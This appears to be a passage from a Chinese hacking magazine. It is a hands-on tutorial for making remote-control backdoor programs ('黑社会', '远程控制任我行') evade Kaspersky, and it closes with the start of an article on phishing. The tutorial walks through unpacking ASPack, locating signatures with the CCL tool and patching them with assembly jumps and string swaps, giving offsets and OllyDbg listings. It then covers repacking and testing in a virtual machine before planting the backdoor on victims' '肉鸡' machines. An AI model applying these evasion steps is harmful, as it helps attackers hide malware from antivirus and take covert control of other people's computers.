

黑社会的执行文件是 Aspack 加的壳，可以用 AspackDie1.41 自动脱去。这一次我们改变一下操作方法，由全自动改为手动与自动结合。先利用手动替换来大体确定特征码的范围。首先运行 CCL，设置参数为手动，按规定个数输出文件，输出个数为 100。参数设置完后打开已脱壳的文件，在弹出的 PE 段选择对话框中直接点击“确定”按钮，也就是对整个文件进行替换。关闭监测，然后在操作窗口中单击“GO”，100 个文件很快就生成了。

> 手动生成大量文件时，一定要将杀毒软件的监测功能关闭，不然杀毒软件要同时处理这成百上千个带毒文件，系统会崩溃的！

我们用杀毒软件对这 100 个文件进行扫描，在杀毒软件删除了所有含特征码的文件后，只剩下两个文件。我们在工具栏中选择“定位特征码”按钮并打开刚才生成的文件夹，确定后主窗口上便显示出了定位信息，如图6所示。



编号为 1 的结果显示是从偏移 0000 开始替换的，在我的机器上这个结果不用考虑，因为卡巴斯基软件对于没有 PE 头的文件是不进行特征码检测的，文件 1 中恰好是 PE 头被替换了，自然就不会被删除。因此初步确定特征码在编号 2 的文件所表示的范围内，即 0x2DC2 到 0x44A3 之间的 0x16E1 个字节范围内。

你也许会问，不管什么杀毒软件都是这样修改吗？答案是 NO。各个杀毒软件对特征码的定义是不一样的，唯一的方法就是分别对每个平台进行检测，再有针对性地进行修改。修改方法一样：指令顺序调换法和通用跳转法。尽量在代码段中找空，但有时候代码段中的空隙实在是不够，就把跳转的代码写在别的段中。由于这些段的默认属性里没有“可执行”这一项，你把代码移过去执行自然会报错。

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 000031C6 | 00000016 | 000031DC |
| 0002 | 00003A16 | 000002C0 | 00003A42 |
| 0003 | 00003A44 | 000002C0 | 00003A70 |
| 0004 | 00003A71 | 000002C0 | 00003A9D |
| 0005 | 00003AA0 | 000002C0 | 00003ACC |
| 0006 | 00003ACD | 000002C0 | 00003AF9 |

哇，有 6 处！老规矩，柿子要挑软的捏，我们先来查看范围最小的 0001 项，用 OllyDbg 打开原文件，找到 0x004031C6 处，看看是些什么。怎么回事？不是汇编指令啊！除了 0 就是几个毫无意义的数据。

```asm
004031C6    00    db 00
......
004031D4    BA    db BA
004031D5    DA    db DA
004031D6    C9    db C9
004031D7    E7    db E7
004031D8    BB    db BB
004031D9    E1    db E1
004031DA    00    db 00
......
```

不是汇编指令，那可不可能是字符串呢？我们在命令行里输入“dd 004031d4”，即显示 0x004031d4 处的内容，然后将数据窗口的显示方式改为“文本-->ASCII(32)”，随即在右下角小窗口中显示出“黑社会”三个字，而且有三处，如图7所示。原来“BADAC9E7BBE1”是这三个汉字的 ASCII 代码，难道杀毒软件就靠文件中的“黑社会”去识别黑社会？



图7

为了证明我们的想法，用 32 位编辑工具 UltraEdit 打开原文件，搜索“黑社会”三个字，一共找到了 7 处。干脆，一不做二不休，我们将 7 处“黑社会”全部替换为“白晶晶”。保存一下，再用杀毒软件检测，果然认不出来了！黑社会 2.0 的特征码就这样被我们搞定了，真是得来全不费工夫啊，竟然是直接用汉字作为特征码！运行一下修改过的文件，挺好使，就是“关于”窗口上的标题从“黑社会”变成“白晶晶”了，呵呵！如图8所示。

#### 打造免杀黑器之三：菜鸟来玩免杀远程控制任我行

相信很多菜鸟看到这里一定很头大，因为前面为有一定基础的朋友们考虑，忽略了前面基本的对 EXE 的脱壳这部分。于是，考虑到广大新手的利益，这里我举一个“脱壳 + 特征码定位 + 修改 + 二次加壳 + 单机调试”的完整、详细的例子给大家，同时配合光盘上提供的全程录像教学，希望新手们能通过不断的摸索掌握这个霸道的技术！



图8

前面两个实战中，我们虽然定位出了多处特征码，但只修改其中一处就可以了，这种情况不一定适用于所有的程序。根据笔者经验，特征码可能有主副之分。主特征码被修改，则无论副特征码是否存在，文件均可以逃过追杀；但如果只修改副特征码，而不修改主特征码，则文件始终会被杀毒软件辨认出来，只不过识别出的版本有所差别。所以，我们修改的目标重点是文件中的主要特征码。

先来看看我们的试验对象——远程控制任我行。它能让你像控制自己的电脑一样控制别人的计算机，这种东西杀毒软件自然是杀它没商量了（如图9所示）。



图9

呵呵，让我们做一点小动作，来迷惑威力无穷的卡巴斯基吧！

- 1. 脱壳

我们的目标是找出并修改远程控制任我行被控端文件的特征码，可万事开头难，我们必须对它进行脱壳。很多人就是因为不会脱壳或者害怕脱壳，还没上路就被打败了。其实脱壳没有大家想象中的那么难，跟着我的思路走，你会明白其实它并不难。

先把“家伙”准备好：查壳工具 PEiD，调试工具 OllyDbg，输入表修复工具 Import REConstructor。先用 PEiD 打开被控端文件，显示文件已被 ASPack2.12 加壳（如图10所示）。



第二步非常关键，就是在网上查找关于 ASPack2.12 的资料。在密界活跃着各路脱壳高手（比如我的偶像 fly），各种脱壳的文章和各种壳的资料比比皆是，我们不妨先了解一下对手的特点，再对症下药，说不定还能找到脱壳机。呵呵，资料显示 ASPack2.12 是一种强度很小的壳，没有对输入表加密，没有 Stolen Code，没有 Anti 功能，总之就是容易脱。这下心里有底了，下面开始动手。

第一种方法是最简单的：用脱壳机。我用的是 AspackDie1.41，成功地脱掉了被控端的壳（如图11所示）。



> 有的脱壳机脱的过程中要把目标程序运行一遍，所以推荐大家在虚拟机中脱，不然一旦运行，自己的系统就变成被自己控制的“肉鸡”了！

第二种方法是手动脱壳。用 OllyDbg 打开被加壳程序，弹出“是否自动分析”的窗口时选 NO，因为加壳代码花指令成堆，分析也没用。这时我们中断在文件的入口处。

```asm
004FE001  60            pushad
004FE002  E8 03000000   call RUNDLLL.
004FE007  E9 EB045D45   jmp 45ACE4F7
004FE00C  55            push ebp
004FE00D  C3            retn
004FE00E  E8 01000000   call RUNDLLL.
```

记住第一条指令“pushad”，ASPack2.12 的特点就是离出口处不远还会有一条与之相对的“popad”指令，看到它我们就要注意，离出口不远了。如果你愿意，可以一路 F7、F8 跟踪（最好在虚拟机中调试，不然系统崩溃了可不要怪我没提醒你哦），但是我们已经知道了它的特点，就可以直接把断点下在“popad”处。我们向下拉滚动条，发现如下代码：

```asm
004FE3AF  61      popad
004FE3B0  75 08   jnz short RUNDLLL.004FE3BA
004FE3B2  B8 01000000   mov eax,1
004FE3B7  C2 0C00       retn 0C
004FE3BA  68 00000000   push 0
004FE3BF  C3            retn
```

在 popad 处双击下断点，然后按 F9 让程序运行，很快程序就停在了断点处，这时倒数第二句已经改变了：

```asm
004FE3AF  61            popad
004FE3B0  75 08         jnz short RUNDLLL.004FE3BA
004FE3B2  B8 01000000   mov eax,1
004FE3B7  C2 0C00       retn 0C
004FE3BA  68 BC4D4A00   push RUNDLLL.004A4DBC
004FE3BF  C3            retn
```

按 F8 单步跟踪，会执行 Push，然后是 Retn，其实就是跳到刚才 Push 的地址去。这里是脱壳里常说的 Magic Jump（魔法跳），这一跳就是去程序的入口处了。你可能问了，我怎么知道什么样的跳转是 Magic Jump 呢？Magic Jump 的距离通常较远（这里是从 004FE3BA 到 004A4DBC），而且入口处的代码通常很有规律，更重要的是多脱几次壳的经验！跳转后入口处代码如下：

```asm
004A4DBC  55        push ebp
004A4DBD  8BEC      mov ebp,esp
004A4DBF  83C4 F0   add esp,-10
```

这是各种编程语言的标准入口（不详细说了），我们停在第一句，程序这时已经脱壳完，我们开始 Dump。选择“插件→OllyDump→脱壳当前调试的进程”，然后点“脱壳之”（如图12所示），保存为另一个文件。稍等片刻，文件就生成了：



这时还没有完，需要修复输入表。打开 ReImport，在进程中选取被控端文件的进程，在 OEP 处输入 A4DBC（004A4DBC-00400000），然后点“自动搜索 IAT”，程序提示“可能发现原始 IAT”。再点击“获取输入表”，这是原程序的输入表，因为没有加密，所以可以直接获取。然后程序自动搜索到了输入表信息，点击“显示无效函数”，显示全部指针有效，这时我们就可以用它来修复刚才抓取的文件了（如图13所示）。

图13

> 输入表相当于一扇门，程序通过它调用 Windows 提供的功能。这里讲得很简单，因为这个壳难度不大，其实输入表修复是脱壳中很复杂的一个过程，留给大家自己修炼吧！

到此为止，整个脱壳就算完成了。用 PEiD 再检测一下，原来是 Delphi 写的程序。卡巴斯基检查仍旧报警。下面让我们来定位它的特征码。

#### 2. 自动定位特征码

黑防前几期已经有些文章介绍了定位某个文件的特征码，但那是手动的方法，不仅烦琐而且费时。CCL 提供了手动和自动两种操作方式，我们结合起来使用：先手动确定大致范围，再自动精确定位。

> 由于 CCL 使用时要求和杀毒软件配合，所以强烈建议大家先详细看看说明再使用，光盘里的 CCL 是最新版本。

首先关闭杀毒软件的即时监测功能。打开 CCL，参数设为“手动 + 生成规定个数的文件”，文件个数设为 10。然后打开修复过的文件，在 PE 文件段选择窗口中直接确定。进入操作窗口后点击 GO，等待生成文件并观察杀毒结果。最后在主窗口中选择“定位”，选取目标文件夹，显示特征码所在位置。

| 序号 | 起始偏移 | 块大小 | 结束偏移 |
|---|---:|---:|---:|
| 0001 | 00000000 | 0001A333 | 0001A333 |
| 0002 | 0004E999 | 0001A333 | 00068CCC |
| 0003 | 0009D332 | 0001A333 | 000B7665 |

第1项我们不考虑，因为“司机”大叔对 PE 文件头被替换的文件是不进行检测的。目标初定为第2、3项。

将参数调整为“自动”，“间隔秒数”设为 7 秒，“最小字节数”设为 16。然后打开待检测文件，分别在用户输入区输入两个区段：起始偏移 0004E999 和 0009D332，大小均为 1A333，并添加进任务栏，填充 0 均设为否。

图14

这时可以打开监测功能。因为 CCL 的“自动功能”是通过判断生成文件是否被杀毒软件删除来决定下一步操作。打开“我的电脑”进入目标文件夹，保持前台后点击 GO 开始自动检测。会发现文件夹中会多两个文件，随后会有一个被删除。

注意这里卡巴斯基的反应较迟钝，在生成文件时不会自动检测，必须在文件图标上单击右键来刺激一下。别的杀毒软件几乎不需要（如图15所示）。

图15

还记得刚才设置的“等待秒数”吗？一定要保证杀毒软件能在 7 秒内把含特征码的文件删除掉，否则结果可能不准。大约 4 分钟以后，自动检测完成，定位结果显示如下。

| 序号 | 起始偏移 | 块大小 | 结束偏移 |
|---|---:|---:|---:|
| 0001 | 0005E6FD | 00000A | 0005E7A7 |
| 0002 | 000A4DB0 | 000004E | 000A4DFE |

呵呵，已经完成一半了，特征码就在这2个段中，下面就是修改了。可两处都要改吗？我们随便修改一处即可，如果还能查出来，再修改另一处。

#### 3. 特征码修改

省省省，无敌的 OllyDbg 再次上场，它可是修改特征码的主力军！打开文件，来到 0045E6FD 处，让我们看看这里到底有什么猫腻，代码如下：

```asm
0045E700   /EB 16          jmp short 111.0045E718
0045E702   . E9 5158FAFF   jmp 111.00403F58
0045E707   . 8B45 FC       mov eax,dword ptr ss:[ebp-4]
0045E70A   . 33D2          xor edx,edx
0045E70C   . 8910          mov dword ptr ds:[eax],edx
0045E70E   . E8 595BFAFF   call 111.0040426C
0045E713   . E8 A85BFAFF   call 111.004042C0
```

原来是汇编指令，我们看看什么指令能改。Jmp 和 Call 这种存在跳转的指令最好别碰，就选 Mov 和 Xor 那两句吧。还是用上面的两种修改方法：指令顺序变换法和跳转法。

顺序变换法很简单，如果两条指令互不干扰，就可以将它们的顺序调换。更多情况下不能调换顺序，这时就要用跳转法：将原指令改为一个 Jmp，跳到我们寻找的空隙处补上原指令，执行完后再跳转回来。

```asm
0045E702   ^E9 5158FAFF   jmp 111.00403F58
0045E707   . E9 14670400   jmp 111.004A4E20
0045E70C   > 8910          mov dword ptr ds:[eax],edx
0045E70E   . E8 595BFAFF   call 111.0040426C
0045E713   . E8 A85BFAFF   call 111.004042C0
```

一个跳转指令需要 5 字节，而 Mov 和 Xor 加起来正好是 5 个字节。Jmp 111.004A4E20 就是我们修改过的指令，其中 004A4E20 就是我们寻找的空隙。

```asm
004A4E02   . E8 3D99FBFF   call 111.0045E744
004A4E07   . E8 E8F8F5FF   call 111.004046F4
004A4E0C   . 0000          add byte ptr ds:[eax],al
...
004A4E20   > 8B45 FC       mov eax,dword ptr ss:[ebp-4]
004A4E23   . 33D2          xor edx,edx
004A4E25   ^ E9 E29BFBFF   jmp 111.0045E70C
004A4E2A   00              db 00
```

开始的两句 Call 就是原文件的最后两句代码了，下面都是 00。我们随便挑了一处 004A4E20，在这里把刚才的 Mov 和 Xor 补上，再加一句跳转回去的 Jmp。

图16

我们再让卡巴斯基查一下，一向严格把关的“司机大叔”这次无话可说了，免杀的目标终于达到了。可是脱壳过的文件体积变大，于是接下来做二次加壳。

#### 4. 二次加壳

用 Notepad.exe 作一个实验可以发现，ASPack 加壳过的程序会多出“.aspack”和“.adata”两个段。我们直接对脱壳文件进行二次加壳，完成以后大小减小了一半左右（如图17所示）。

图17

好了，完成了大部分工作，可是在传到肉鸡之前，我们先得测试一下能不能用。怎么测试呢？这可是后门程序呀！没关系，我们用虚拟机来进行单机测试。

> 刘流：什么是虚拟机？其实就是虚拟出一套环境，在里面运行的程序就像是在真实的电脑中运行一样。流行的虚拟机程序有 Virtual PC 和 VMware……

#### 5. 用虚拟机实现单机调试后门程序

在 VPC 中新建计算机并安装系统（如 Windows 2000），将虚拟机与本机通过网卡互通。关键是 IP 设置：两者设为同一工作组（如 WORKGROUP），IP 置于同一网段（示例：本机 26.28.248.100，虚拟机 26.28.248.99）。开启 ADSL 猫电源后，虚拟机网络会连通；在本机 ping 测试可确认本机与虚拟机网络已连通。

我们把压缩过的文件传到虚拟机里，可通过网络邻居共享或设置共享文件夹后运行。控制端连接 26.28.248.99 显示成功，随后可查看远程电脑屏幕，出现虚拟机画面（如图19）。

如果机器性能足够，还可以在虚拟机中安装 Windows XP SP2，继续测试远程操作功能。

#### 结束语

用 CCL 定位特征码时，手动替换与自动替换应互补使用。通常先手动确定大范围，再自动精确定位小范围。定位成功后根据特征码类型处理：若是汇编指令，可用“指令顺序调换法”或“万能跳转法”；若是字符串等，在不影响程序运行前提下可直接替换。操作过程中应注意与杀毒软件配合，合理设置等待时间和定位精度，确保自动检测过程确实触发样本检测。

提醒：不同杀毒软件的特征码定义不同，最好逐一测试验证。作者强调在虚拟机中实验更安全，避免在本机直接操作带来的风险。

> WTF：网络安全技术随网络发展不断进步，攻击方式也在不断出现。钓鱼式攻击已较常见，可通过邮件、恶意网页、聊天工具等传播，危害范围广。文中介绍了相关案例与防护方法，并推荐了对应书籍与实践经验。

- 适合读者：普通网民、入侵爱好者、网络管理员
- 前置知识：无

### 钓鱼式攻击和欺骗的艺术

文/图 风之扬

今年，网络钓鱼式攻击在国内造成不少麻烦，从仿冒银行网站盗取用户信息，到各类看似不可能上当的骗局，仍有人“愿者上钩”，且有愈演愈烈趋势。报告显示相关攻击数量持续增长，个数增长了近10倍，而2005年这个数量还会继续增加！

#### 什么是钓鱼式攻击？

利用欺骗性的电子邮件和伪造的 Web 站点进行诈骗活动就是钓鱼式攻击。“钓鱼式攻击”在国外叫 Phishing，它来源于两个词：Phreaking + Fishing = Phishing，其中“Phreaking”的意思是找寻在电话系统内漏洞、不付电话费用，引申为黑客；“Fishing”是使用鱼饵吸引猎物，也就是通常所讲的钓鱼。以这个意义为基础，我们再结合国内的一些具体情况，将“钓鱼式攻击”翻译成为“Phishing Attack”，区别于国外单纯的电子邮件攻击方式，融入了网页木马、页面欺诈、间谍软件等手段，加上了最新的防护方法，希望大家了解这种攻击方式。

